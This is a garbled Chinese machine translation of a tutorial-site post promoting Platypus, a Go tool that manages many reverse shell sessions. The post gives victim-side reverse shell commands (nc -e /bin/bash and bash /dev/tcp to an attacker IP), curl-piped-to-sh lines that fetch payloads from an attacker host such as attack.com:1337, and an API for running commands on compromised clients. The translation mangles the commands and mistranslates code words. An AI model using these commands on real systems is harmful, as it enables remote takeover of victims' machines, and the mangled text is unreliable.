


# Platypus:一个用 Go 编写的现代多重反向 Shell 会话管理器

> 原文：<https://kalilinuxtutorials.com/platypus-multiple-reverse-shell/>

Platypus 是一个现代的多重反向 shell 会话/客户端管理器，通过终端使用 go 编写。它包括以下内容

*   多服务监听端口
*   多个客户端连接
*   RESTful API
*   反向外壳即服务

**也可阅读-[w12 scan:一个简单的网络安全资产发现引擎](https://kalilinuxtutorials.com/w12scan-discovery-engine-cybersecurity/)**

**网络拓扑**

攻击 IP: 192.168.1.2
反壳服务:0.0.0:8080
RESTful 服务:127.0.0.1:9090
受害 IP: 192.168.1.3

**从源代码运行鸭嘴兽**

去拿 github.com/WangYihang/Platypus
CD go/src/github . com/王一航/鸭嘴兽
去跑鸭嘴兽. go

**从发布的二进制文件中运行鸭嘴兽**

//从 https://github.com/WangYihang/Platypus/releases
chmod+x ./Platypus _ Linux _ amd64
下载二进制。/鸭嘴兽 _linux_amd64

**受害方**

NC-e/bin/bash 192 . 168 . 1 . 2 8080
bash-c ' bash-I>/dev/TCP/192 . 168 . 1 . 2/8080 0>

**反向外壳即服务**

// Platypus 能够复用反向外壳监听端口
//端口 8080 可以接收反向外壳客户端连接
//同样这些也是作为服务在此端口上运行的反向外壳

//受害者将被重定向到攻击者-主机攻击者-端口
//sh-c " $(curl http://host:port/attack-host/attack-port)"
curl http://192 . 168 . 1 . 2:8080/attack . com/1337
bash 它将使用主机，端口作为攻击者-主机攻击者-端口
//sh-c " $(curl http://host:port/)"
curl http://192 . 168 . 1 . 2:8080/
curl http://192 . 168 . 1 . 2:8080/192 . 168 . 1 . 2/8080 | sh
sh-c " $(curl http://host:port/)"

**RESTful API**

GET /client 列出所有在线客户端

curl ' http://127 . 0 . 0 . 1:9090/client
{
" msg ":[
" 192 . 168 . 1 . 3:54798 "
，
" status ":true
}
POST/client/:hash 在特定客户端上执行命令
curl-X POST ' http://127 . 0 . 0 . 1:900

**如何哈希？**

echo-n " 192 . 168 . 1 . 3:54798 " | MD 5 sum
0723 C3 bed 0d 0240140 e 10 a6 ffd 36 eed 4-

**截图**

*   
*   

[**Download**](https://github.com/WangYihang/Platypus)